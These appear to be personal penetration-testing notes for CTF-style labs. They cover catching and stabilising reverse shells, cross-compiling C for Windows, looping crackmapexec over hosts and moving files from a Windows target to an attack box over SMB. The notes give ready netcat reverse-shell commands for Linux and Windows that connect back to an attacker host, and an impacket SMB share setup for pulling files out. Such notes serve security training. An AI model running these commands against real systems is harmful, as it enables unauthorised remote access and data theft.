 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop

We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).


## File transfer from Windows to Attack box

If you find yourself on a windows shell and want to transfer files from the target to the attack box,
you can start an SMB server on the attackbox:

```
impacket-smbserver SHARE $(pwd) -smb2support -user ${SOME_USERNAME} -password ${SOME_PW}
```
(Note that this makes a public server. Only use this in CTF scenarios in private networks).
